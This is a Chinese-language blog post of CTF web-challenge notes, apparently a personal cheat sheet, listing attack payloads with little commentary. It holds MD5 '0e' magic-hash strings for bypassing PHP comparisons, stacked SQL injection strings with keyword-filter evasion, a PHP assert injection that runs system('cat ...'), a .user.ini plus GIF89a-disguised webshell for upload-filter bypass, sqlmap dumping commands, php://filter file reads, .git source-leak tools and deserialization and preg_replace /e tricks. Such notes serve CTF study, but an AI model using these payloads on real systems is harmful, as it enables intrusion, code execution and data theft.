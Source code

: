 ```yaml
---
layout: post
title: "CTF /WEB"
create: 2019-09-05
update: 2019-09-05
categories: blog
tags: [Dev]
description: "Note for CTF"
---
```


MD5 为 0exxxx开头的字符串 {
    QNKCDZO
    0e830400451993494058024219903391
    
    s878926199a
    0e545993274517709034328855841020
    
    s155964671a
    0e342768416822451524974117254469
    
    s214587387a
    0e848240448830537924465865611904
    
    s1091221200a
    0e940624217856561557816327384675
    
    s1502113478a
    0e861580163291561247404381396064
    
    s1885207154a
    0e509367213418206700842008763514
    
    s1836677006a
    0e481036490867661113260034900752
    
    s1184209335a
    0e072485820392773389523109082030
    
    s1665632922a
    0e731198061491163073197128363787
    
    s532378020a
    0e220463095855511507588041205815 
}

POST
file_get_contents('php://input','r');

```git
- git clone https://github.com/lijiejie/GitHack
- git clone https://github.com/maurosoria/dirsearch
- python GitHack.py  http://url/.git/

```

(==) "666" == 666.00e-0000

PHP 序列化
```php
//数字前有+号不会影响反序列化,但是可以绕过正则表达式
class SeBaFi {
    var $name;
    var $password;
}
$o=new SeBaFi();
$o->password=&$o->name;
echo serialize($o);

// 序列化后的字符串标记的成员数量大于实际数量时可以绕过__wakeup()方法
```

```sql
select 1,table_name from information_schema.tables where table_schema='csdb' and table_type='base table';

concat('se', 'lect')
1';show tables;
1';show columns from `1919810931114514`;#
1';use supersqli;set @sql=concat('s','elect `flag` from `1919810931114514`');PREPARE stmt1 FROM @sql;EXECUTE stmt1;#
```

PHP 语句闭合
```php
<?php
if (isset($_GET['page'])) {
	$page = $_GET['page'];
} else {
	$page = "home";
}
$file = "templates/" . $page . ".php";
// I heard '..' is dangerous!
assert("strpos('$file', '..') === false") or die("Detected hacking attempt!");

// TODO: Make this look nice
assert("file_exists('$file')") or die("That file doesn't exist!");
?>

/*构造*/
?page=1','2') === false and system('cat templates/flag.php') and strpos('templates/flag
/*拼接*/
assert("strpos(‘templates/1’, ‘2’) === false and system(‘cat templates/flag.php’) and strpos(‘templates/flag.php’) or die(“Detected hacking attempt!”);
```


```sh
# 注入测试
    sqlmap -r <file> #file 是请求文件
    sqlmap -u <url>
# 获取数据库列表
    sqlmap -r <file> --dbs
    sqlmap -u <url> --dbs
# 获取数据库中的表
    sqlmap -r <file> -D <database> --tables
# 获取数据表中字段
    sqlmap -r <file> -D <database> -T <table> --columns
# 获取数据表中字段的值
    sqlmap -r <file> -D <database> -T <table> -C <column> --dump
```

```php
// php服务器中每个目录下有`.user.ini`可以用来单独配置这些php文件
auto_prepend_file=<file> // 在文件前加入<file>的内容
auto_append_file=<file> // 在文件后加入<file>的内容

// 伪造文件头 - exif_imagetype() 绕过
`.user.ini` 
GIF89a
auto_prepend_file=<file>

`<file>`
GIF89a
<script language='php'>system('cat /flag');</script>
```

PHP 读取任意文件base64编码
```
http://url?arg0=php://filter/read=convert.base64-encode/resource=xxx.php
```

PHP preg_replace 漏洞
```php
/**
 * $pattern 以 '/e' 结尾, 则 $replacement 会被当作php代码替换
 */
preg_replace(mixed $pattern , mixed $replacement , mixed $subject [, int $limit = -1 [, int &$count]]);
```
